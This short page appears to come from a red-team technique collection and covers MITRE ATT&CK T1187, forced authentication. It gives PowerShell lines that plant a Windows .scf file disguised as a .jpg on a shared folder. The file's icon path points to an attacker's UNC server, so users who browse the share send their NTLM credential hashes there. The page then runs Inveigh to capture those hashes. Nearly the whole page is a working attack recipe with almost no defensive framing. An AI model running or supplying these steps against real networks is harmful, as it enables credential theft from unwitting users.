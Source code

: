 # Creat scf File

MITRE ATT&CK Technique: [T1187](https://attack.mitre.org/wiki/Technique/T1187)

  $IPAddress = “192.168.1.1” # unc server
  $Location = “\\FILESERVER\FilesShare” # file server
  "[Shell]" > $Location\~T0P3492.jpg.scf
  "Command=2" >> $Location\~T0P3492.jpg.scf;
  "IconFile=\\$IPAddress\remote.ico" >> $Location\~T0P3492.jpg.scf
  "[Taskbar]" >> $Location\~T0P3492.jpg.scf
  "Command=ToggleDesktop" >> $Location\~T0P3492.jpg.scf

## Run Inveigh to Receive the Authentication Attempts

PS> Invoke-Inveigh -FileOutputDirectory C:\Temp\ -FileOutput Y -HTTP Y -NBNS Y -Tool 1

*https://github.com/Kevin-Robertson/Inveigh
